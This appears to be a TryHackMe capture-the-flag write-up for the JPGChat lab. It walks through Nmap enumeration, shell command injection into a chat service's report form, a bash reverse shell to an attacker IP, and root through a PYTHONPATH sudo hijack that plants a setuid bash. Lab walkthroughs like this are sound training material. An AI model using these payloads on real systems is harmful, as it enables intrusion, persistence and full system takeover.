 ```yaml
---
layout: post
title:  "TryHackMe - JPGChat Writeup"
date:   2021-08-17 08:47:00 -0400
categories: tryhackme pentesting cybersecurity
comments: true
---
```


[JPGChat](https://tryhackme.com/room/jpgchat) was a very quick and easy box, but it does have a simple OSINT step that was a bit of fun to follow.

## Nmap Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versatile tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to instead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-p`: Scan specific ports. `-p<n>` will scan a specific port, and `-p-` scans every port from 1 to 65,535. While doing a full port scan is good, it can take a while, so it's good to let that one run while you're doing other tasks.

We'll run two Nmap scans. The first one will scan the top 1000 ports that are listening to give us a strong starting point, and the second scan will run in the background and check every possible port. Since this second scan will take longer, we can let it run in the background while we work on other things.

```bash
nmap -sC -sV -v -oN nmap-initial.nmap 10.10.54.184
nmap -p- -v -oN nmap-allports.nmap 10.10.54.184
```

Nmap finds two open ports: port 22 running SSH, and port 3000. While Nmap can't identify what service is running, it does try to give us some information that we can use to identify the service ourselves.

```
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We get that same message if we try to connect using Netcat.

``` 
$ nc 10.10.54.184 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

There are two important facts that will help us proceed:

1. The name of the service is JPChat
2. The source code for the application is on GitHub somewhere.

## Command Injection

A quick Google search finds us a [GitHub repository](https://github.com/Mozzie-jpg/JPChat), and checking the source code seems to line up with the welcome message we got when connecting, so it's probably safe to assume this is the same application.

Inspecting the source code of the application, there's something interesting in the "report" function.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

The input fields for our name and report are both passed to `os.system` without any kind of filtering. This means we can probably break out of the command that was intended to be run and run our own arbitrary commands.

We'll use a single-quote to break out of the initial `bash -c` command, add a semicolon to specify that we want to start a new command, and end things off with a pound sign to comment out the rest of the line. We can do a simple proof-of-concept before we actually start running anything malicious.

```
[REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami #
your report:
'; #

wes
```

Our `whoami` command gives us a username back, meaning we do indeed have successful command injection. Now we can build out a reverse shell to get proper access to the box. If you've never built a reverse shell before, there are [plenty of online resources](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to help you out. Below is one of the more basic and common bash reverse shells.

```
'; bash -c 'bash -i >& /dev/tcp/10.13.14.52/9001 0>&1'; #
```

We land as the `wes` user, who has access to the user flag. We know SSH is listening on the box, so while we're here we can also drop an SSH key in to give us better persistence. An SSH session will just be a much better experience than a reverse shell, plus it opens up potentially useful features like file transfers and port forwarding.

## Privilege Escalation
We'll start with some basic manual enumeration before we get into anything automated. There aren't any interesting files in `wes`'s home directory, but `sudo -l` gives us a useful find.

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

There are two things we should take away from this information:

1. `wes` can run the `test_module.py` script as root without entering a password.
2. The `PYTHONPATH` environment variable will be retained when running commands with `sudo`

The `test_module.py` script is only writeable by root, meaning we can't just edit it, so we'll need to find another way to exploit that script.

If you aren't already familiar with Python's environment variables, a quick Google search will show you that the `PYTHONPATH` variable declares the location that Python should look for modules and packages. We can read the contents of the `test_module.py` and see that it imports the `compare` module. If we could make our own malicious `compare` module and force the script to load it with the `PYTHONPATH` variable, that should be enough to root the box.

```python
import os

class compare:
  def Str(s1,s2,s3):
    os.system('cp /bin/bash /bin/sbash')
    os.system('chmod +s /bin/sbash')
```

This script creates a copy of `bash` and then sets the [setuid bit](https://man7.org/linux/man-pages/man2/setuid.2.html) on that copy, which will give us a root shell if we run the copy with the `-p` flag. We'll create a folder to store our script in, save it as `compare.py`, and add that folder to the `PYTHONPATH` variable.

```bash
export PYTHONPATH=/home/wes/mod
sudo python3 /opt/development/test_module.py
/bin/sbash -p
```

We now have root access and can grab the root flag.
